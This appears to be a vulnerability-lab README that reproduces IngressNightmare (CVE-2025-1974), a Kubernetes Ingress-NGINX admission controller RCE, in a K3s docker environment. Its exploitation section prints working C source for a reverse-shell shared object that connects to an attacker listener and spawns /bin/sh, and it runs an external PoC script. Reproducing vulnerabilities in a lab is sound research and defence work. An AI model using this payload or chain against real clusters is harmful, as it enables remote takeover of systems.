 # IngressNightmare: Kubernetes Ingress Unauthenticated Remote Code Execution Vulnerability (CVE-2025-1974)

The **IngressNightmare** vulnerability stems from a critical flaw in the **Ingress-NGINX Admission Controller**—a core Kubernetes security mechanism responsible for validating incoming Ingress resources before they are accepted by the cluster. This controller is **exposed over the network without requiring authentication**, allowing attackers to craft malicious `AdmissionReview` requests and inject unauthorized configurations into Ingress resources.

> **Note**: Achieving full Remote Code Execution (RCE) requires chaining CVE-2025-1974 with one of several other vulnerabilities. Below are some known exploit chains:

| Vulnerability Chain                | Exploitation Method                          |
|-----------------------------------|----------------------------------------------|
| CVE-2025-1974 + CVE-2025-24514     | RCE via `auth-url` annotation injection      |
| CVE-2025-1974 + CVE-2025-1097      | RCE via `auth-tls-match-cn` annotation       |
| CVE-2025-1974 + CVE-2025-1098      | RCE via image UID abuse                      |

---

## Vulnerability Mechanics

An attacker can forge an `AdmissionReview` request to inject arbitrary NGINX directives into the Ingress resource. These directives are validated using the `nginx -t` command. Through careful manipulation, an attacker can inject an `ssl_engine` directive, which forces NGINX to load a dynamic shared object (DSO)—leading to arbitrary code execution.

More technical breakdowns can be found in the following resources:

- [IngressNightmare: CVE-2025-1974 - Critical Unauthenticated RCE](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities)
- [Kubernetes Blog: CVE-2025-1974 Overview](https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/)

---

## Environment Setup

To simulate the vulnerability, a K3s-based Kubernetes environment is used for simplicity.

```bash
docker compose up -d
```

After the environment starts, execute the initialization script inside the k3s container:

```bash
$ docker ps -a | grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server" ...

$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

Once initialized, you'll be inside a container named `exploit-pod`.

## Exploitation

We first compile a shared object (`.so`) payload matching the container’s architecture. Below is a sample source code for a reverse shell:

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    char *server_ip = "xxxx";
    uint32_t server_port = 7788;
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    system("touch /tmp/hacked");
    if (connect(sock, (struct sockaddr *)&attacker_addr, sizeof(attacker_addr)) != 0)
        exit(0);
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}
```

Replace `server_ip` with your actual reverse shell listener. You can compile the binary using the environment provided by [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main).

Once compiled, place the resulting `shell.so` into the `./exploit` directory of the container.

Inside `exploit-pod`, navigate to the exploit directory and launch the exploit script. The script is sourced from the [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main) GitHub repository:

```bash
cd /exploit
python3 exploit.py
```

You should observe the creation of the `/tmp/hacked` file inside the ingress-nginx container, confirming successful exploitation.

![](1.jpg)	

## References

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main

